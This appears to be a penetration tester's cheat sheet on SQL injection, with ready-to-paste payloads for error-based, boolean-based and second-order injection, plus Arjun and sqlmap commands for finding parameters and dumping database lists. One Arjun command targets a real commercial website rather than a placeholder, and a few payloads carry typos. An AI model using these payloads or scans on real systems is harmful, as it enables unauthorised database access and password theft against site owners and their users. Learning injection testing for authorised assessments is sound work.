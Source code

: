 ```sql
' AND 1=CONVERT(INT, (SELECT @@version));--
```

```sql
' AND EXTRACTVALUE(1, CONCAT(0x0a, @@version));--
```

### Boolean-based attack
`password= pass123' UNION SELECT Id FROM Users WHERE Username = 'admin' and SUBSTR(Password,1,1) = 'a' ;--`
if it returns data then you now have the id and brute force over the password to get it too
or we can use RLIKE : `RLIKE "(^)[a].*";`
```sql
' OR 1=1 --  (Always True) ✅
' OR 1=2 --  (Always False) ❌
```
If the first query returns a different response than the second, the application is vulnerable!
### Second-order SQL attack
When user input gets stored into a database, then retrieved and used unsafely in a SQL query. Even if the application handles the input properly when it's submitted by the user but the application deals with the data that came from the database as safe.
**how to exploit them** :
let's say we will try on the username.
- make the username like : `"ma133' UNION SELECT username, passwird FROM Users;--"`
- then try to access an end point where the application retrieve the username form it's database 
# Arjun

>~/.local/bin/arjun -u https://www.realestate.com.au/

designed to discover **HTTP parameters**
`arjun -u "http://example.com/page.php"`
`arjun -u "http://example.com/page.php" -m POST` > **Specify HTTP method (GET/POST)**
`arjun -u "http://example.com/page.php" -H "Cookie: session=1234"` > **Include headers (e.g., cookies or authorization tokens)**
`arjun -u "http://example.com/page.php" -w /path/to/wordlist.txt` > **Use a custom wordlist**
`arjun -u "http://example.com/api" -j '{"key":"value"}'` > **Test for parameters in JSON data (for APIs)**
JSON should be in POST request > right click + change request method + edit content type and write `application/json` + add JSON in the body; eg: { "id" : 1}
and then delete 1 and add * and send it to sqlmap
# SQLMAP
`sqlmap -u <target_url>`
`sqlmap -u <target_url_?offset=1> -p offset`
`sqlmap -r file.txt` > put * 
 `sqlmap -u "http://example.com/page.php" --data="id=1" --method=POST` > **Specify HTTP method (GET/POST)** 
 `sqlmap sqlmap.py -u http://example.com/login --data="username=admin&password=pass123"`
 The output of this command should be used in the HTTP request body using burp suite
### examples on POST Requests:
 - **User Login Form**
 - **Search Function** > `sqlmap.py -u http://example.com/login --data="query=test"`
 - **Feedback Submission** 
 `sqlmap -u "http://example.com/page.php?id=1" --cookie="PHPSESSID=1234"` > **Specify cookies for authentication** 
 or > `sqlmap -u "http://example.com/page.php" -H "Cookie:id=*"` , `sqlmap -u "http://example.com/page.php" -H "Cookie:*"` *or any header no just cookie*
 `sqlmap -u "http://example.com/page.php?id=1" -v 6` , `sqlmap -u "http://example.com/page.php?id-1" --level 5 --risk 3` > **Increase verbosity**
 `sqlmap -u "http://example.com/page.php?id=1" --dbs` > If the target is vulnerable, `sqlmap` will attempt to retrieve a list of all databases available on the database server.